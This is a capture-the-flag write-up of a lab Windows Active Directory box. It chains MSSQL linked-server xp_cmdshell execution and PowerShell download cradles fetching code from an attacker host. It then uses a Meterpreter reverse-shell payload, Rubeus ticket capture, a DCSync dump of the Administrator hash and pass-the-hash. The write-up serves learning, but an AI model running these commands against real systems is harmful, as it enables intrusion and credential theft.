

<link rel="stylesheet" href="{{ '/assets/css/obsidian-dividers.css' | relative_url }}">

## Summary

<div class="divider divider-info">
    <span class="divider-title">TL;DR</span>
    <span class="divider-content">DarkZero is a Hard Windows Active Directory box demonstrating MSSQL exploitation and Kerberos ticket abuse. Starting with valid credentials, the attack chain involves discovering MSSQL linked servers with elevated privileges, enabling xp_cmdshell for code execution, exploiting a local privilege escalation vulnerability to gain SYSTEM access on a VM, using Rubeus to capture Kerberos tickets through forced authentication, and performing a DCSync attack to compromise the Domain Controller.</span>
</div>

**Key Vulnerabilities:**
- MSSQL linked server with DB admin privileges allowing xp_cmdshell execution
- Outdated Windows OS vulnerable to local privilege escalation
- Ability to capture Kerberos TGTs through forced authentication
- Domain Controller accessible via DCSync with captured tickets

---

## Enumeration

### Nmap Scan

**Initial scan:**
```bash
nmap -vv -T5 -p- 10.129.x.x

nmap -vv -T5 -p445,1433 -sC -sV 10.129.x.x
```

**Results:**

| Port | Service | TCP/UDP |
| ---- | ------- | ------- |
| 445  | SMB     | TCP     |
| 1433 | MSSQL   | TCP     |

**Key findings:**
- MSSQL server accessible with provided credentials
- SMB enumeration yields no results with given credentials
- Focus shifted to MSSQL exploitation

---

### MSSQL Enumeration

**Initial access:**
```bash
# Testing MSSQL access with provided credentials
impacket-mssqlclient DOMAIN/user:password@10.129.x.x -windows-auth
```

With access to MSSQL, enumeration revealed:
- `xp_dirtree` enabled and accessible
- MSSQL linked server configured
- Current user has limited privileges on main server

---

## Initial Foothold

### NTLM Hash Capture Attempt

**Step 1:** Attempt to capture NTLM hash using xp_dirtree
```sql
EXEC xp_dirtree '\\10.10.14.5\share'
```

This triggered authentication from the machine account (DC01$), but cracking the NTLMv2 hash for a Domain Controller machine account proved unsuccessful (as expected).

---

### Linked Server Discovery

<div class="divider divider-info">
    <span class="divider-title">MSSQL Linked Servers</span>
    <span class="divider-content">Linked servers in MSSQL allow one database server to execute commands against another. When improperly configured, an attacker with low privileges on one server might have elevated privileges on a linked server, enabling privilege escalation and code execution.</span>
</div>

**Enumeration:**
```sql
-- List linked servers
EXEC sp_linkedservers;

-- Test privileges on linked server
EXEC ('SELECT SYSTEM_USER') AT [LinkedServerName];
```

**Discovery:** The linked server grants DB admin privileges to the current user.

---

### Code Execution via xp_cmdshell

**Step 1:** Enable xp_cmdshell on the linked server
```sql
EXEC ('sp_configure ''show advanced options'', 1; RECONFIGURE;') AT [LinkedServerName];
EXEC ('sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT [LinkedServerName];
```

**Step 2:** Execute commands
```sql
EXEC ('xp_cmdshell ''whoami''') AT [LinkedServerName];
```

<div class="divider divider-root">
    <span class="divider-title">Code Execution</span>
    <span class="divider-content">Successfully achieved code execution on the VM through MSSQL linked server</span>
</div>

---

## Privilege Escalation (VM)

### Local Privilege Escalation

**Step 1:** Run WinPEAS for enumeration
```sql
EXEC ('xp_cmdshell ''powershell -c "IEX(New-Object Net.WebClient).DownloadString(''http://10.10.14.5/winPEAS.ps1'')"''') AT [LinkedServerName];
```

**Discovery:** The VM is running an outdated Windows OS vulnerable to known privilege escalation exploits.

<div class="divider divider-warning">
    <span class="divider-title">Outdated OS Vulnerability</span>
    <span class="divider-content">Running WinPEAS revealed the operating system version is significantly outdated with publicly available privilege escalation exploits on Metasploit and GitHub.</span>
</div>

**Step 2:** Use Metasploit for privilege escalation
```bash
# Generate Meterpreter payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f exe -o shell.exe

# Start Metasploit handler
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.5
set LPORT 4444
run

# Upload and execute via xp_cmdshell
EXEC ('xp_cmdshell ''powershell -c "IEX(New-Object Net.WebClient).DownloadFile(''http://10.10.14.5/shell.exe'',''C:\\temp\\shell.exe'')"''') AT [LinkedServerName];
EXEC ('xp_cmdshell ''C:\\temp\\shell.exe''') AT [LinkedServerName];
```

**Step 3:** Exploit local privilege escalation vulnerability
```bash
# In Meterpreter session
background
use exploit/windows/local/[exploit_name]
set SESSION 1
run
```

<div class="divider divider-root">
    <span class="divider-title">SYSTEM Access</span>
    <span class="divider-content">Successfully escalated to NT AUTHORITY\SYSTEM on the VM</span>
</div>

---

## Kerberos Ticket Capture

### Rubeus Monitor Mode

<div class="divider divider-info">
    <span class="divider-title">Rubeus Ticket Monitoring</span>
    <span class="divider-content">Rubeus is a C# toolset for Kerberos interaction and abuse. The monitor mode continuously watches for Kerberos authentication on the local system and captures TGT/TGS tickets, which can then be extracted and reused for impersonation attacks.</span>
</div>

**Step 1:** Upload Rubeus to the VM
```bash
# In Meterpreter session
upload /path/to/Rubeus.exe C:\\temp\\Rubeus.exe
```

**Step 2:** Start Rubeus in monitor mode
```bash
shell
C:\temp\Rubeus.exe monitor /interval:5
```


Rubeus is now listening for incoming Kerberos tickets and will capture any ticket used for authentication on the VM.

---

### Forced Authentication

**Step 1:** Force authentication from Domain Controller through MSSQL
```sql
-- Back in MSSQL session
EXEC xp_dirtree '\\\\VM_IP\\share';
```


<div class="divider divider-root">
    <span class="divider-title">TGT Captured</span>
    <span class="divider-content">Rubeus successfully captured the Domain Controller machine account TGT</span>
</div>

---

## Ticket Extraction and Conversion

**Step 1:** Copy the base64-encoded ticket from Rubeus output
```bash
# Save ticket to file
echo "[BASE64_TICKET]" > ticket.b64
```


**Step 2:** Decode and convert to ccache format
```bash
# Decode base64 to kirbi
cat ticket.b64 | base64 -d > ticket.kirbi

# Convert kirbi to ccache using Impacket
impacket-ticketConverter ticket.kirbi ticket.ccache

# Set environment variable for Kerberos authentication
export KRB5CCNAME=ticket.ccache
```


---

## DCSync Attack

<div class="divider divider-warning">
    <span class="divider-title">DCSync Attack</span>
    <span class="divider-content">DCSync is a technique that leverages the Directory Replication Service (DRS) protocol to impersonate a Domain Controller and request password data. With the machine account TGT, we can perform replication requests to extract any user's credentials, including Domain Administrator hashes.</span>
</div>

**Step 1:** Synchronize time with Domain Controller
```bash
# Fix clock skew (critical for Kerberos)
sudo ntpdate DC_IP
```

**Step 2:** Perform DCSync using secretsdump
```bash
impacket-secretsdump -k -no-pass DC01.DOMAIN.LOCAL -just-dc-user Administrator
```


**Successfully extracted Administrator NTLM hash**

---

## Root Flag

**Using Pass-the-Hash with psexec:**
```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:[ADMIN_HASH] Administrator@DC01.DOMAIN.LOCAL
```


<div class="divider divider-root">
    <span class="divider-title">Domain Compromised</span>
    <span class="divider-content">Successfully obtained NT AUTHORITY\SYSTEM access on Domain Controller</span>
</div>

---

## Post-Exploitation

**Attack Chain Summary:**
1. MSSQL access with provided credentials
2. Discovery of linked MSSQL server with DB admin privileges
3. xp_cmdshell enabled on linked server for code execution
4. Local privilege escalation on VM using outdated OS exploit
5. Rubeus deployed in monitor mode to capture Kerberos tickets
6. Forced authentication from DC via xp_dirtree
7. TGT captured and converted to ccache format
8. DCSync attack performed with machine account TGT
9. Pass-the-Hash to Domain Controller as Administrator

**Key Lessons:**
- Always enumerate MSSQL linked servers for privilege escalation opportunities
- Outdated operating systems present easy local privilege escalation vectors
- Machine account TGTs provide powerful attack opportunities in AD environments
- Rubeus monitor mode is effective for passive ticket capture
- Clock synchronization is critical for Kerberos-based attacks
- DCSync with machine account credentials provides full domain compromise

---

## References

- [Impacket Toolkit - GitHub](https://github.com/fortra/impacket)
- [Rubeus - GitHub](https://github.com/GhostPack/Rubeus)
- [MSSQL Linked Server Attacks - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#mssql-linked-servers)
- [DCSync Attack - MITRE ATT&CK](https://attack.mitre.org/techniques/T1003/006/)
- [WinPEAS - GitHub](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [Kerberos Abuse - HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberos-authentication)
- [Pass-the-Hash Attacks - MITRE ATT&CK](https://attack.mitre.org/techniques/T1550/002/)

---

## Timeline



---

**Pwned on:** 09/10/2025

**Difficulty Rating:** ⭐⭐⭐⭐ (Challenging privilege escalation chain)  
**Fun Factor:** ⭐⭐⭐⭐ (Excellent learning experience with Kerberos)
